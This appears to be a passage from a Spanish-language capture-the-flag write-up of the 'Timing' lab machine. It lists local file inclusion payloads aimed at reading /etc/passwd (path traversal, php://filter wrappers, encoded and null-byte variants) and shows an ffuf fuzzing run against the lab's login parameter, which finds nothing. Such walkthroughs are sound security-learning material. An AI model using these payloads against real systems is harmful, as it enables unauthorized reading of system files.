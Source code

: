 Esta pinta tiene la página de login.php:

![Web]({{ 'assets/img/writeups/Timing/web.png' | relative_url }}){: .center-image }

Abajo tiene alguna cosilla más, pero todas redirigen a la misma página login.php.

Al probar a logearnos con un usuario cualquiera, en mi caso probe admin:admin nos muestra que el "usuario o contraseña es inválido" con lo que parece no dar pistas si un usuario es válido, y lo interesante es que en la url se muestra un parámetro.


En el valor del parámetro podría probar algunas inyecciones o ataques LFI. Mando estas en el lugar de true:
```
/etc/passwd
file:///etc/passwd
../../../../../../../../etc/passwd
....//....//....//....//....//....//....//....//etc/passwd
php://filter/convert.base64-encode/resource=/etc/passwd
..%252f..%252f..%252f..%252f..%252f..%252fetc%252fpasswd
php://filter/resource=/etc/passwd
/etc/passwd%00
../../../../../../../etc/passwd%00
```
Pero todas me dan la misma respuesta. Normalmente me fijo en el Content-Lenght, si es el mismo tamaño de respuesta es que no funciona.  
Lanzo un ataque de fuerza bruta con ffuf por posibles LFI:
```sh
❯ ffuf -c -w /opt/SecLists/Fuzzing/LFI/LFI-Jhaddix.txt:FUZZ -u 'http://10.10.11.135/login.php?login=FUZZ' -fs 5963 -p 0.5

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.0.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.11.135/login.php?login=FUZZ
 :: Wordlist         : FUZZ: /opt/SecLists/Fuzzing/LFI/LFI-Jhaddix.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Delay            : 0.20 seconds
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
 :: Filter           : Response size: 5963
________________________________________________

:: Progress: [920/920] :: Job [1/1] :: 157 req/sec :: Duration: [0:00:06] :: Errors: 0 ::
```
Opciones:  
-c: coloreado.  
-w: diccionario.  
-fs : oculta el size que le pongas.  
-p: tiempo de delay entre petición. Para que vaya menos rápido y se asegure bien.
